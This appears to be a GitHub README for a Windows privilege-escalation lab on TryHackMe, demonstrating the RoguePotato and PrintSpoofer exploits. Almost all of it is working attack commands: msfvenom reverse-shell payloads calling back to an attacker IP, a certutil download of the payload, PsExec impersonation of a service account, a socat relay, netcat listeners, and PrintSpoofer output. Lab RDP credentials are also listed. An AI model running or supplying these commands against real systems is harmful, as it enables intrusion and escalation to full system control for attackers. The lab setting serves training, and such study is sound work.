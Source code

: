 
# Potato Family:2k19


Get a service account by exploiting or if you want to do a demo :

**Big Thanks to Tiberius for the awesome WinPriv course. You can checkout his awesome course here. I couldnot have done without his help and it is his setup :**
https://www.udemy.com/course/windows-privilege-escalation/


Binaries are in the folder called files.

You have to login as the admin and then spawn a shell using the following command which can mimic the service account you get when you exploit a service to obtain a shell.

To make the reverse executables:
```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.11.238 LPORT=443 -f exe > reverse.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.11.238 LPORT=53 -f exe > rev.exe

```

To transfer them start a python server where you have these executables and this on the Windows shell.

```cmd
certutil -urlcache -split -f http://YOURIPFORTHEVPN:PORT/reverse.exe
```
To obtain a mimiced service account:

```cmd
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

https://tryhackme.com/room/windows10privesc

rdp creds
user:password321
admin:password123

--------------------------------------------------


RoguePotato.exe 

```zsh
RoguePotato.exe -r 10.11.11.238 -e "C:\PrivEsc\rev.exe" -l 9999
```
First IP is your Kali machine IP over the VPN

We have rev.exe using msfvenom which can connect to port 53 on our kali machine so:

```zsh
nc -lvnp 53
```

```zsh
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.67.56:9999
```
Here the IP is the Windows IP which we are trying to crack into.

![Rogue Potato in action](./files/Rogue.png)
------------------------------------------------------

Printspoofer.exe

```cmd
PrintSpoofer.exe -i -c rev.exe                                                                                                                                   
PrintSpoofer.exe -i -c rev.exe                                                                                                                                              
[+] Found privilege: SeImpersonatePrivilege                                                                                                                                 
[+] Named pipe listening...                                                                                                                                                 
[+] CreateProcessAsUser() OK
```

```zsh
 nc -lvnp 53
```

![PrintSpoofer.exe](./files/printspoofer.png)


<script src="https://asciinema.org/a/14.js" id="asciicast-14" async data-autoplay="true" data-size="big"></script>
